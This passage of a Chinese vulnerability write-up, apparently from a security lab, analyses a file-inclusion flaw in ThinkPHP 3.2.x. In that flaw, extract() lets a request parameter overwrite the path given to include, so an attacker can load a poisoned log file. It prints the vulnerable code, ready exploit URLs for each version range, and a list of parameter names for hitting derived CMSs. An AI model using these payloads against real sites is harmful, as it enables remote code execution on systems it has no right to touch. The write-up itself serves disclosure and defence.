

  

覆写后：



  

  
最终导致：

> include .\Application\Runtime\Logs\Home\21_06_30.log
> 
>   



  

#### 0x05 ThinkPHP3.2.* 各版本之间的差异：

> 1.ThinkPHP_3.2 和 ThinkPHP_3.2.1
> 
>   

**代码位置：\ThinkPHP\Library\Think\Storage\Driver\File.class.php 第 68-79 行**

```
/**     * 加载文件     * @access public     * @param string $filename  文件名     * @param array $vars  传入变量     * @return void             */    public function load($filename,$vars=null){        if(!is_null($vars))            extract($vars, EXTR_OVERWRITE);        include $filename;    }
```

http://x.x.x.x/index.php?m=Home&c=Index&a=index&value[filename]=.\

> 2.ThinkPHP_3.2.2 和 ThinkPHP_3.2.3
> 
>   

**代码位置：\ThinkPHP\Library\Think\Storage\Driver\File.class.php**

```
/**     * 加载文件     * @access public     * @param string $filename  文件名     * @param array $vars  传入变量     * @return void             */    public function load($_filename,$vars=null){        if(!is_null($vars))            extract($vars, EXTR_OVERWRITE);        include $_filename;    }
```

http://127.0.0.1/index.php?m=Home&c=Index&a=index&value[_filename]=.\

> 3. 限定条件下参数的收集
> 
>   

很多利用 Thinkphp 二开的 cms，value 的值不确定，以下列出常见的：

```
paramnamevaluearrayarrinfolistpagemenusvardatamoudlemodule
```

最终 payload 例如：http://127.0.0.1/index.php?m=Home&c=Index&a=index&info[_filename]=.\

> 参考：http://www.thinkphp.cn/

**默安玄甲实验室已经协同监管单位向使用该框架的关键基础设施推进检测方式和代码安全解决方案，点击原文了解默安** **SDL 解决方案****。**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
